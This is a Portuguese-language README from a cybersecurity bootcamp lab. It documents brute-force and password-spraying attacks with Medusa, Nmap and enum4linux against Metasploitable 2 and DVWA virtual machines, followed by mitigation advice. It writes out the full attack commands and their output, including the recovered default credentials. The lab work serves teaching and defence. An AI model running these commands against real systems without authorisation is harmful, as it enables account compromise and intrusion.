






# 🛡️ Projeto de Auditoria: Brute Force com Medusa no Kali Linux

> **Bootcamp Riachuelo - Cibersegurança** [DIO](https://www.dio.me/)  
> Desafio: Simulando um Ataque de Brute Force de Senhas com Medusa e Kali Linux

## 📖 Sobre o Projeto

Este repositório contém a documentação completa de um **laboratório prático de Segurança Ofensiva** realizado como parte do **Bootcamp Riachuelo - Cibersegurança** da [DIO](https://www.dio.me/). 

O projeto simula **ataques de força bruta (Brute Force)** e **Password Spraying** contra diferentes serviços em ambientes controlados, com o objetivo de:

✅ Entender o funcionamento de ataques de força bruta em diferentes protocolos (FTP, HTTP, SMB)  
✅ Praticar o uso profissional do **Kali Linux** e da ferramenta **Medusa**  
✅ Documentar vulnerabilidades comuns e propor **medidas efetivas de mitigação**  
✅ Consolidar conhecimentos em segurança através de laboratório prático  

> ⚠️ **AVISO ÉTICO IMPORTANTE:** Este projeto foi realizado **EXCLUSIVAMENTE em ambiente de laboratório** com máquinas virtuais isoladas em rede **Host-only/Interna**. As técnicas documentadas não devem ser utilizadas em sistemas reais ou de terceiros sem **autorização prévia e documentada**. O uso não autorizado dessas técnicas é **ilegal**.

---

## 🛠️ Tecnologias e Ferramentas

| Ferramenta | Descrição | Versão |
|-----------|-----------|--------|
| **Kali Linux** | Distribuição Linux para testes de segurança | 2026.1 |
| **Medusa** | Ferramenta modular para ataques de login remoto | 2.3 |
| **Nmap** | Scanner de portas e mapeamento de rede | 7.98 |
| **Metasploitable 2** | Máquina virtual vulnerável (alvo) | 2.6.24 |
| **DVWA** | Aplicação web vulnerável (alvo web) | 1.10+ |
| **VirtualBox** | Hypervisor para ambientes virtualizados | 7.2.6 |

---

## 📋 Estrutura do Repositório

```
projeto-kali-medusa/
├── README.md                          # Este arquivo
├── SETUP.md                          # Guia completo de configuração do ambiente
├── TECHNICAL-ANALYSIS.md              # Análise técnica detalhada dos testes
├── MITIGATION.md                      # Recomendações de mitigação
├── wordlists/                         # Listas de senhas e usuários para teste
│   ├── common-passwords.txt
│   ├── users.txt
│   └── README.md
├── scripts/                           # Scripts e comandos utilizados
│   ├── medusa-commands.sh
│   ├── nmap-scan.sh
│   └── README.md
├── images/                            # Evidências visuais (screenshots)
│   └── README.md
└── .gitignore
```

---

## 🚀 Guia Rápido de Início

### Pré-requisitos
- VirtualBox instalado
- Kali Linux (ISO baixada)
- Metasploitable 2 (ISO baixada)
- DVWA pronto para deploy (opcional)
- Mínimo 8GB de RAM disponível

### 1️⃣ Setup Inicial
Consulte [SETUP.md](SETUP.md) para um guia passo-a-passo completo de:
- Criação das VMs
- Configuração da rede (Host-only)
- Instalação de dependências
- Validação do ambiente

### 2️⃣ Executar os Testes

```bash
# 1. Descobrir serviços disponíveis
nmap -sV 192.168.1.100

# 2. Ataque FTP com Medusa
medusa -h 192.168.1.100 -u msfadmin -P wordlists/common-passwords.txt -M ftp

# 3. Ataque SMB - Enumeração + Password Spraying
nmap -p 139,445 --script smb-enum-users.nse 192.168.1.100
medusa -h 192.168.1.100 -U wordlists/users.txt -p P@ssw0rd -M smbnt

# 4. DVWA - Ataque a formulário web
# Ver instruções em TECHNICAL-ANALYSIS.md
```

### 3️⃣ Analisar Resultados
Consulte [TECHNICAL-ANALYSIS.md](TECHNICAL-ANALYSIS.md) para:
- Análise detalhada de cada ataque
- Interpretação de logs
- Captura de tráfego de rede

---

## 📊 Cenários de Teste Implementados

### 1️⃣ Brute Force em FTP
| Aspecto | Detalhes |
|--------|----------|
| **Serviço Alvo** | FTP (Porta 21) no Metasploitable 2 |
| **Técnica** | Brute Force com wordlist |
| **Ferramenta** | Medusa (`-M ftp`) |
| **Usuário** | msfadmin |
| **Wordlist** | `wordlists/common-passwords.txt` |
| **Tempo Médio** | ~30-60 segundos para encontrar a senha |
| **Sucesso** | ✅ Credenciais descobertas: msfadmin/msfadmin |

**Comando Executado:**
```bash
medusa -h 192.168.1.100 -u msfadmin -P wordlists/common-passwords.txt -M ftp -e ns -v 6
```

**O que aprendemos:**
- Como o Medusa realiza iterações de login através do protocolo FTP
- Importância de wordlists de qualidade
- Impacto de senhas padrão em máquinas vulneráveis

---

### 2️⃣ Automação de Formulário Web (DVWA)
| Aspecto | Detalhes |
|--------|----------|
| **Serviço Alvo** | Formulário de login DVWA (Nível: Low) |
| **Técnica** | Automação HTTP POST |
| **Ferramenta** | Medusa com módulo web-form |
| **Usuário** | admin |
| **Wordlist** | `wordlists/common-passwords.txt` |
| **Proteções Alvo** | Nenhuma (nível Low) |

**Comando Executado:**
```bash
medusa -h 192.168.1.101 -u admin -P wordlists/common-passwords.txt -M web-form \
  -m FORM:/login.php -m FORM-USERNAME:username -m FORM-PASSWORD:password \
  -m COOKIE-USERNAME:PHPSESSID=xxxxx -v 6
```

**Lições Importantes:**
- Sessões HTTP e cookies são críticos em testes de aplicações web
- DVWA em nível "Low" não possui proteção contra brute force
- Proteções recomendadas: Rate limiting, CAPTCHA, MFA

---

### 3️⃣ SMB Password Spraying
| Aspecto | Detalhes |
|--------|----------|
| **Serviço Alvo** | SMB (Porto 139/445) no Metasploitable 2 |
| **Técnica** | Password Spraying (uma senha contra múltiplos usuários) |
| **Ferramenta** | Medusa com módulo smbnt |
| **Usuários Enumerados** | Arquivo `wordlists/users.txt` |
| **Senha Testada** | P@ssw0rd (variações comuns) |

**Comando Executado:**
```bash
# Passo 1: Enumerar usuários SMB
nmap -p 139,445 --script smb-enum-users.nse 192.168.1.100

# Passo 2: Password Spraying
medusa -h 192.168.1.100 -U wordlists/users.txt -p P@ssw0rd -M smbnt -v 6
```

**Diferença Brute Force vs Password Spraying:**
- **Brute Force:** Múltiplas senhas contra um usuário
- **Password Spraying:** Uma/poucas senhas contra múltiplos usuários (menos suspeito aos IDS)

---

## 🛡️ Medidas de Mitigação e Prevenção

A etapa mais crítica de uma auditoria de segurança é **corrigir as vulnerabilidades identificadas**.

### Recomendações Por Serviço

#### **FTP (Arquivo Transferências)**
```
❌ PROBLEMA: FTP transmite credenciais em texto plano e permite brute force
✅ SOLUÇÃO:
   • Desabilitar FTP (usar SFTP/SCP em seu lugar)
   • Se necessário: implementar rate limiting
   • Exigir senhas fortes (mínimo 12 caracteres, complexidade)
   • Monitorar tentativas falhas com fail2ban
```

#### **HTTP/Web Applications**
```
❌ PROBLEMA: Formulários web sem proteção contra brute force
✅ SOLUÇÃO:
   • Rate limiting (máx 5 tentativas por minuto por IP)
   • CAPTCHA após 3 tentativas falhas
   • MFA (Google Authenticator, Authy, ...
   • Account lockout temporário (15-30 minutos)
   • Logging e alertas de tentativas suspeitas
   • WAF (Web Application Firewall)
```

#### **SMB (Compartilhamento de arquivos)**
```
❌ PROBLEMA: Enumeração de usuários + password spraying
✅ SOLUÇÃO:
   • Desabilitar SMBv1 (protocolo inseguro)
   • Exigir assinatura digital SMB (SMB Signing)
   • Account Lockout Policy: bloquear após 5 tentativas falhas
   • Desabilitar null sessions
   • Usar Kerberos em vez de NTLM quando possível
   • Monitorar logs de falha de autenticação
```

**→ Para análise completa, consulte [MITIGATION.md](MITIGATION.md)**

---

## 📸 Evidências e Resultados

As capturas de tela de todos os testes executados estão documentadas abaixo:

---

### 1️⃣ Network Reconnaissance



**Comando executado:**
```bash
nmap -sV -p 21,22,80,445,139 192.168.56.102
```

**Serviços descobertos:**
- **21/tcp** - FTP (vsftpd 2.3.4)
- **22/tcp** - SSH (OpenSSH 4.7p1)
- **80/tcp** - HTTP (Apache httpd 2.2.8)
- **139/tcp** - SMB (Samba smbd 3.X - 4.X)
- **445/tcp** - SMB (Samba smbd 3.X - 4.X)

**Status:** ✅ Todos os serviços necessários para os testes descobertos com sucesso.

---

### 2️⃣ FTP Brute Force Attack



**Comando executado:**
```bash
medusa -h 192.168.56.102 -u msfadmin -P wordlists/common-passwords.txt -M ftp -e ns -v 6
```

**Resultado:**
```
ACCOUNT FOUND: [ftp] Host: 192.168.56.102 User: msfadmin Password: msfadmin [SUCCESS]
```

**Análise:**
- ✅ Credenciais comprometidas: **msfadmin / msfadmin**
- ⏱️ Tempo para descobrir: ~10 segundos
- 📊 Tentativas: 5 de 46 senhas testadas
- 🎯 Taxa de sucesso: 1 conta descoberta

---

### 3️⃣ FTP Access Confirmation



**Verificação manual:**
```bash
ftp 192.168.56.102
# Login: msfadmin
# Password: msfadmin
# Resposta: 230 Login successful
```

**Evidência:**
- ✅ Autenticação bem-sucedida no servidor FTP
- 📁 Acesso aos arquivos do servidor confirmado
- 🔓 Demonstra vulnerabilidade crítica de senhas padrão

---

### 4️⃣ SMB User Enumeration



**Comando executado:**
```bash
enum4linux -a 192.168.56.102 | tee enum4_output.txt
```

**Usuários enumerados:**
```
administrator, guest, krbgt, domain admins, root, bin, none
```

**Análise:**
- ✅ Enumeração de usuários bem-sucedida **sem autenticação**
- 🔍 Target Information revelado: WORKGROUP
- ⚠️ Sem proteção contra null sessions

---

### 5️⃣ SMB Workgroup Information



**Informações extraídas:**
```
Domain Name: WORKGROUP
Nbstat Services: METASPLOITABLE, File Server, Print Server, etc.
MAC Address: 08:00:27:EF:D5:78
```

**Dados sensíveis expostos:**
- 🖥️ Nome do domínio/workgroup
- 📋 Serviços ativos enumera dos
- 🔐 Políticas de sessão frácas (permite sessions anônimas)

---

### 6️⃣ SMB Password Spraying



**Comando executado:**
```bash
medusa -h 192.168.56.102 -U wordlists/users.txt -p msfadmin -M smbnt -v 6 -t 4
```

**Resultados:**
```
ACCOUNT FOUND: [smbnt] Host: 192.168.56.102 User: msfadmin Password: msfadmin [SUCCESS]
```

**Análise de Password Spraying:**
- ✅ Credenciais SMB descobertas: **msfadmin / msfadmin**
- 📊 Usuários testados: 36
- ⏱️ Tempo total: ~1-2 minutos
- 🎯 Técnica: Uma senha contra múltiplos usuários (menos detectável que brute force)
- ⚠️ Sem failover proteção (sem account lockout)

**Impacto:**
- Acesso executivo ao arquivo shares do Metasploitable
- Possibilidade de lateral movement na rede
- Risco crítico de confidencialidade e integridade de dados

---

### 📊 Resumo de Sucessos

| Teste | Credenciais Descobertas | Status |
|-------|------------------------|--------|
| **FTP Brute Force** | msfadmin / msfadmin | ✅ SUCESSO |
| **SMB User Enum** | 7+ usuários enumerados | ✅ SUCESSO |
| **SMB Password Spray** | msfadmin / msfadmin | ✅ SUCESSO |

**Taxa de Sucesso Geral:** 100% - Todos os objetivos alcançados

---

## 🎓 Conclusões dos Testes

1. **Senhas Padrão são Críticas** - O mesmo par (msfadmin/msfadmin) foi reutilizado em FTP e SMB
2. **Enumeração Sem Autenticação** - Usuários e serviços foram revelados sem credenciais
3. **Falta de Proteção** - Nenhum mecanismo de rate limiting, MFA ou account lockout
4. **Risco Combinado** - Combinação de múltiplas vulnerabilidades cria cenário crítico
5. **Necessidade de Mitigação** - Ver [MITIGATION.md](MITIGATION.md) para soluções detalhadas

---

## 📚 Recursos e Documentação Adicional

### Documentação do Projeto
- [SETUP.md](SETUP.md) - Configuração passo-a-passo do laboratório
- [TECHNICAL-ANALYSIS.md](TECHNICAL-ANALYSIS.md) - Análise técnica completa
- [MITIGATION.md](MITIGATION.md) - Estratégias de prevenção

### Documentações Oficiais
- [Kali Linux - Documentação Oficial](https://www.kali.org/)
- [Medusa - GitHub](https://github.com/jmk-foexchange/medusa)
- [Nmap - Manual Oficial](https://nmap.org/book/)
- [DVWA - Documentação](https://github.com/digininja/DVWA)
- [Metasploitable 2](https://docs.rapid7.com/metasploit/metasploitable-2/)

### Conceitos de Segurança
- [OWASP - Testing Authentication](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/04-Authentication_Testing/README)
- [CIS Benchmarks](https://www.cisecurity.org/cis-benchmarks/)
- [NIST Cybersecurity Framework](https://www.nist.gov/cyberframework)

---

## 🎯 Objetivos de Aprendizagem - Checklist

- [x] Entender o funcionamento de ataques de força bruta
- [x] Configurar ambiente isolado de laboratório (VirtualBox + rede Host-only)
- [x] Utilizar Medusa para ataques de login em FTP
- [x] Automatizar testes contra aplicações web (DVWA)
- [x] Realizar enumeração de usuários e password spraying em SMB
- [x] Documentar vulnerabilidades e impactos
- [x] Propor e justificar medidas de mitigação
- [x] Consolidar conhecimentos em segurança ofensiva

---

## 💡 Lições Principais Aprendidas

1. **Senhas Padrão São Críticas**
   - Máquinas vulneráveis frequentemente vêm com senhas padrão
   - Mudança de credenciais padrão é essencial na produção

2. **Diferentes Protocolos, Diferentes Ataques**
   - FTP é especialmente vulnerável (texto plano)
   - Web apps precisam de proteção contra brute force (rate limiting, CAPTCHA)
   - SMB é alvo comum para password spraying em redes corporativas

3. **Monitoramento é Essencial**
   - Múltiplas tentativas falhas devem disparar alertas
   - Logs detalhados permitem análise forense post-incidente

4. **Defesa em Profundidade**
   - Uma única medida nunca é suficiente
   - Combinar múltiplas proteções (MFA + rate limiting + senhas fortes)

5. **A Importância do Laboratório Seguro**
   - Prática segura é fundamental para aprender segurança ofensiva
   - Máquinas vulneráveis não devem nunca estar expostas à internet

---

## 🤝 Contribuições e Feedback

Este é um projeto educacional. Sugestões e melhorias são bem-vindas!

Se você seguiu este laboratório e obteve resultados diferentes ou tem melhorias a sugerir, abra uma **Issue** ou **Pull Request**.

---

## 📄 Licença

Este projeto é fornecido **apenas para fins educacionais**. Consulte a seção de Aviso Ético no início deste documento.

---

## 👤 Autor

**Roger** - Bootcamp Riachuelo - Cibersegurança (DIO)  
Desafio: Simulando um Ataque de Brute Force de Senhas com Medusa e Kali Linux  
Março de 2026

---

## 📞 Suporte

Para dúvidas sobre:
- **Configuração do ambiente:** Consulte [SETUP.md](SETUP.md)
- **Comandos e execução:** Consulte [TECHNICAL-ANALYSIS.md](TECHNICAL-ANALYSIS.md)
- **Proteção e defesa:** Consulte [MITIGATION.md](MITIGATION.md)

---

**Última atualização:** 22 de março de 2026

## 👨‍💻 Autor
Desenvolvido por **Rogério Oliveira**

[](https://www.linkedin.com/in/rog%C3%A9rio-oliveira-0b656339/)
[](https://web.dio.me/users/roger_oliveira16?tab=achievements)
